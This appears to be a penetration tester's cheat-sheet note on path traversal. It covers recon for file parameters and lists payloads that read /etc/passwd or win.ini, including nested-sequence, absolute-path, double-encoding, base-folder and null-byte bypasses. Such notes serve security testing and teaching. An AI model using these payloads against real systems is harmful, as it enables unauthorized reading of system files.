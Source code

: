 +![[Path Traversal.png]]
# Recon

Identify any app functionality that is likely to involve retrieval of data from a server's filesystem. Look for any input fields that reference a file or directory name, or that contain any file extensions such as:

```html
?file=test
?item=test.html
```

After identifying potential targets for path traversal testing, you must test every instance individually to determine if user controllable data is used to interact with the server filesystem in an unsafe way.
# No Defenses - Basic Example

The following is a basic payload that can be used to test for path traversal vulnerabilities when the app does not implement any input validation. This payload will step up 3 directories to reach the filesystem root, then reference another common file depending on the OS in use:

```bash
../../../etc/passwd
../../../windows/win.ini
```

>[!info]
>Many apps that place user input in file paths implement some defence against traversal attacks.
# Non-Recursive Filtering Bypass

The app may be filtering out the `../` characters, but not in a recursive manner:

```bash
....//....//....//etc/passwd
..././..././..././etc/passwd
```
# Absolute Path Bypass

This payload references the file directly without the use of the traversal sequences:

```bash
/etc/passwd
```
# Encoding Bypass

Try double URL encoding the following payload:

```bash
../../../etc/passwd
```

Other variations could be encoding only the `/` character in `../`:

```bash
..%25%32%66
```

URL encode the `/` character `..%2f` then URL encode only the `%` character in `..%2f`:

```bash
..%252f
```

>[!info]
>Burp Pro includes a path traversal fuzzing wordlist that has many variations of encoding sequences to use.
# Validation of Starting Path Bypass

Sometimes, the app requires that the supplied filename begins with a base folder. You can include this base folder and add in the traversal sequences after it:

```bash
/var/www/images/../../../etc/passwd
```
# File Extension Validation Bypass

If the app requires that the filename must end with a certain file extension, you can inject a null byte to possible terminate the file path before the required extension:

```bash
../../../etc/passwd%00.png
```

